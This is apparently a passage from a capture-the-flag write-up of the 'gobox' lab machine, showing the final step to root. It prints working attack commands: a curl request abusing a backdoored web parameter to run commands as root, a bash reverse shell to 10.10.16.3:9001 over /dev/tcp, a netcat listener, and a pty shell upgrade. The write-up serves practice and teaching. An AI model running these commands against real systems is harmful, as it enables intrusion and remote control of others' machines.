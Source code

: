 ```bash
curl -g "http://localhost:8000/?ippsec.run[id]"

uid=0(root) gid=0(root) groups=0(root)

```

We are now running as root.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.3/9001 0>&1'
```

```bash
curl -g "http://localhost:8000/?ippsec.run[bash -c 'bash -i >& /dev/tcp/10.10.16.3/9001 0>&1']"
```

Start listener:

```bash
nc -lnvp 9001
```

![image.png]({{ site.baseurl }}/assets/gobox/image%2021.png)

The system kicks us off automatically in around 2 seconds. If we upgrade our shell before that we get a stable shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This is because our reverse shell is being killed by the parent process — curl (or the web server) — which exits immediately after running the command. But when we **upgrade to PTY**, we **detach from the parent** → **shell survives**.